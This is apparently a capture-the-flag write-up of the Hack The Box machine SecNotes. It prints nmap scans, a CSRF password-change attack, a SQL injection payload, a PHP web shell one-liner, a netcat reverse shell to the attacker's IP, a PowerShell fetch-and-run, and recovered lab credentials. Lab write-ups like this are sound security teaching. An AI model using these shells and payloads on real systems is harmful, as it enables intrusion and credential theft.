# SecNotes
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.97 -T4                                                      
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 18:49 BST
Nmap scan report for 10.10.10.97 (10.10.10.97)
Host is up (0.092s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```
```
└─$ nmap -Pn -p80,445,8808 -sC -sV 10.10.10.97 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 18:54 BST
Nmap scan report for 10.10.10.97 (10.10.10.97)
Host is up (0.13s latency).

PORT     STATE SERVICE   VERSION
80/tcp   open  http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  10.10.100 Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h19m24s, deviation: 4h02m30s, median: -35s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2023-09-02T10:53:49-07:00
| smb2-time: 
|   date: 2023-09-02T17:53:53
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

- Web Server



- Port `8808`



## Foothold
- We can register a user





- We have change password option
  - `http://10.10.10.97/change_pass.php`
  - But it doesn't require old password


- So after trying to figure out what to do, I got a hint from `forum`
  - If we change request type to `GET` and visit `http://10.10.10.97/change_pass.php?password=pentest3&confirm_password=pentest3&submit=submit`, it works




- So it looks like we can `CSRF` the `tyler` user via `contact us` page
  - `CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim’s behalf`
    - https://owasp.org/www-community/attacks/csrf
  - Since the user doesn't require to enter an old password, if we make user visit `evil` url we can make user do unintentional commands




- After waiting for several minutes we got access
  - And we have notes with creds: `tyler:92g!mA8BGjOirkL%OG*&`



- Let's test the creds

```
└─$ crackmapexec smb 10.10.10.97  -u tyler  -p '92g!mA8BGjOirkL%OG*&'
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*& 
```

- Let's check the contents of `smb` shares
```
└─$ smbclient -L //10.10.10.97/ -U tyler --password '92g!mA8BGjOirkL%OG*&' 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        new-site        Disk      
```
```
└─$ smbclient //10.10.10.97/new-site -U tyler --password '92g!mA8BGjOirkL%OG*&' 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Aug 19 19:06:14 2018
  ..                                  D        0  Sun Aug 19 19:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 16:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 16:26:03 2018

                7736063 blocks of size 4096. 3388635 blocks available
```

- It looks like the website from port `8808`
  - And it looks like we can upload files

```
└─$ echo "test" > test.txt
```
```
smb: \> put test.txt
putting file test.txt as \test.txt (0.0 kb/s) (average 0.0 kb/s)
```
```
└─$ curl http://10.10.10.97:8808/test.txt
test
```

- Since we saw `.php` extension on port `80`, the box and `IIS` probably supports `php`
  - The web shell: `<?php system($_REQUEST['cmd']); ?>`
```
smb: \> put shell.php 
putting file shell.php as \shell.php (0.1 kb/s) (average 0.1 kb/s)
```
```
└─$ curl http://10.10.10.97:8808/shell.php?cmd=whoami
secnotes\tyler
```

- Let's get reverse shell
  - `nc64.exe+-e+cmd.exe+10.10.16.5+6666`

```
smb: \> put nc64.exe
putting file nc64.exe as \nc64.exe (63.2 kb/s) (average 17.9 kb/s)
smb: \> put shell.php
putting file shell.php as \shell.php (0.1 kb/s) (average 16.5 kb/s)
```
```
└─$ curl 'http://10.10.10.97:8808/shell.php?cmd=powershell.exe%20iex%20%22shell.ps1%22'
```



### Second-Order SQLi
- By the way, there happened to unintentional path via `Second-Order SQLi`
  - `Second-order SQL injection arises when user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way.`
    - https://portswigger.net/kb/issues/00100210_sql-injection-second-order
  - The payload used `' or 1='1`





## Root
- Enumerate
  - Nothing is special with groups and privileges
  - But we have a strange `bash.lnk`

```
c:\Users\tyler>dir Desktop
dir Desktop
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of c:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
08/02/2021  03:32 AM             1,210 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
09/02/2023  10:48 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
               7 File(s)          7,965 bytes
               2 Dir(s)  13,878,030,336 bytes free
```
```
c:\Users\tyler>type desktop\bash.lnk
type desktop\bash.lnk
L�F w������V�   �v(���  ��9P�O� �:i�+00�/C:\V1�LIWindows@       ﾋL���LI.h���&WindowsZ1�L<System32B      ﾋL���L<.p�k�System32▒Z2��LP� bash.exeB  ﾋL<��LU.�Y����bash.exe▒K-JںݜC:\Windows\System32\bash.exe"..\..\..\Windows\System32\bash.exeC:\Windows\System32�%�
                     �wN�▒�]N�D.��Q���`�Xsecnotesx�<sAA��㍧�o�:u��'�/�x�<sAA��㍧�o�:u��'�/�=    �Y1SPS�0��C�G����sf"=dSystem32 (C:\Windows)�1SPS��XF�L8C���&�m�q/S-1-5-21-1791094074-1363918840-4199337083-1002�1SPS0�%��G▒��`����%
        bash.exe@������
                       �)
                         Application@v(���      �i1SPS�jc(=�����O�▒�MC:\Windows\System32\bash.exe91SPS�mD��pH�H@.�=x�hH�(�bP
```

- Let's run `C:\Windows\System32\bash.exe`



- Let's check `.bash_history`
  - And we find creds: `Administrator:u6!4ZwgwOM#^OBf#Nwnh`


- `psexec` as `Administrator`
  - Rooted


